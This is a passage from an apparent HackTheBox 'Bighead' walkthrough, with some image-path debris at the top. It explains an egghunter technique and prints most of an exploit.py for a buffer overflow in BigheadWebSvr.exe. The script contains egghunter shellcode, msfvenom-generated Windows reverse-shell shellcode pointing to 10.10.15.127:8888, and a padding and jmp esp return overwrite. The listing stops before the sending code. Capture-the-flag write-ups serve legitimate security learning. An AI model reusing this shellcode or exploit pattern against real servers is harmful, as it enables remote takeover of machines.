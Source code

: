 Any of the above return addresses will lead us into the egghunter shellcode, which can also be generated by `mona.py`, using `!mona egg -t b33f`

<a class="image-popup">
![3fba1e6a.png](/assets/images/posts/bighead-htb-walkthrough/3fba1e6a.png)
</a>

And since BigheadWebSvr.exe is a multi-threaded application, we can send in as many eggs (the exploit payload) as we want, to increase the stability and chances of the exploit occuring before we send the egghunter. Armed with this knowledge, here's the exploit code.

<div class="filename"><span>exploit.py</span></div>

```python
#!/usr/bin/env python

import os
import socket
import sys

# !mona egg -t b33f
egghunter = (
"6681caff0f42526a0258cd2e3c055a74"
"efb8623333668bfaaf75eaaf75e7ffe7")

# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.127 LPORT=8888 EXITFUNC=thread -b '\x00\x0a\x0d\x20\x3d\x3f' -f c
egg = (
"\xb8\x50\x61\x24\x5d\xd9\xe8\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x52\x83\xc3\x04\x31\x43\x0e\x03\x13\x6f\xc6\xa8\x6f\x87\x84"
"\x53\x8f\x58\xe9\xda\x6a\x69\x29\xb8\xff\xda\x99\xca\xad\xd6"
"\x52\x9e\x45\x6c\x16\x37\x6a\xc5\x9d\x61\x45\xd6\x8e\x52\xc4"
"\x54\xcd\x86\x26\x64\x1e\xdb\x27\xa1\x43\x16\x75\x7a\x0f\x85"
"\x69\x0f\x45\x16\x02\x43\x4b\x1e\xf7\x14\x6a\x0f\xa6\x2f\x35"
"\x8f\x49\xe3\x4d\x86\x51\xe0\x68\x50\xea\xd2\x07\x63\x3a\x2b"
"\xe7\xc8\x03\x83\x1a\x10\x44\x24\xc5\x67\xbc\x56\x78\x70\x7b"
"\x24\xa6\xf5\x9f\x8e\x2d\xad\x7b\x2e\xe1\x28\x08\x3c\x4e\x3e"
"\x56\x21\x51\x93\xed\x5d\xda\x12\x21\xd4\x98\x30\xe5\xbc\x7b"
"\x58\xbc\x18\x2d\x65\xde\xc2\x92\xc3\x95\xef\xc7\x79\xf4\x67"
"\x2b\xb0\x06\x78\x23\xc3\x75\x4a\xec\x7f\x11\xe6\x65\xa6\xe6"
"\x09\x5c\x1e\x78\xf4\x5f\x5f\x51\x33\x0b\x0f\xc9\x92\x34\xc4"
"\x09\x1a\xe1\x4b\x59\xb4\x5a\x2c\x09\x74\x0b\xc4\x43\x7b\x74"
"\xf4\x6c\x51\x1d\x9f\x97\x32\x28\x6a\x9b\xe4\x44\x68\xa3\xca"
"\x2c\xe5\x45\x60\x5d\xa0\xde\x1d\xc4\xe9\x94\xbc\x09\x24\xd1"
"\xff\x82\xcb\x26\xb1\x62\xa1\x34\x26\x83\xfc\x66\xe1\x9c\x2a"
"\x0e\x6d\x0e\xb1\xce\xf8\x33\x6e\x99\xad\x82\x67\x4f\x40\xbc"
"\xd1\x6d\x99\x58\x19\x35\x46\x99\xa4\xb4\x0b\xa5\x82\xa6\xd5"
"\x26\x8f\x92\x89\x70\x59\x4c\x6c\x2b\x2b\x26\x26\x80\xe5\xae"
"\xbf\xea\x35\xa8\xbf\x26\xc0\x54\x71\x9f\x95\x6b\xbe\x77\x12"
"\x14\xa2\xe7\xdd\xcf\x66\x07\x3c\xc5\x92\xa0\x99\x8c\x1e\xad"
"\x19\x7b\x5c\xc8\x99\x89\x1d\x2f\x81\xf8\x18\x6b\x05\x11\x51"
"\xe4\xe0\x15\xc6\x05\x21")

stage1 = "b33fb33f" + egg
stage2 = "A" * 72 + "FD125062" + egghunter # 0x625012fd - jmp esp

request = (
"%s /%s HTTP/1.1\r\n"
"Host: dev.bighead.htb\r\n\r\n")

```